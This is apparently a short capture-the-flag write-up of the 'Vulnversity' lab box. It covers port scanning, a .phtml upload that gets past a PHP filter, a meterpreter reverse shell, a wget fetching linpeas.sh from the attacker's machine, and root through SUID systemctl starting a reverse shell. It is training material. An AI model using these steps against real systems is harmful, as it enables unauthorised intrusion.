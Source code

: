 [+] Vulnversity

#### IP Address

```bash
EXPORT IP=10.10.24.98
```

## Nmap scan

- 139 - SMB
    - authentication level: guest
    - SMB security signatures enabled but **not required**
- 445 - SMB
- 3128
    - Squid proxy 3.5.12
- 3333 - http Apache 2.4.18

## Ffuf

no robots.txt

/css
/js
/fonts/images
/internal -> page to upload file
- tried PHP **BLOCKED**
- tried phtml -> **ACCEPTED**

## Getting revshell

I attempted getting a meterpreter shell first. I didn't think it would work as I know that they generally don't due to AV or other reasons, but it was a good try. 

I tried both x64 x86 versions of meterpreter/reverse_tcp

This got me a low level user on the box.

## Enumerating

Was able to cd to /tmp/ and download linpeas via:

```
wget "10.2.110.157/linpeas.sh"
```

Where 10.2.110.157 was my attacker machine, with a python SimpleHTTPServer

The thing that stuck out the most, was systemctl having SUID permissions. To exploit this, I used:

https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740

Essentially, setting up a service that start a reverse shell via systemctl. Super simple method of getting root on the box.
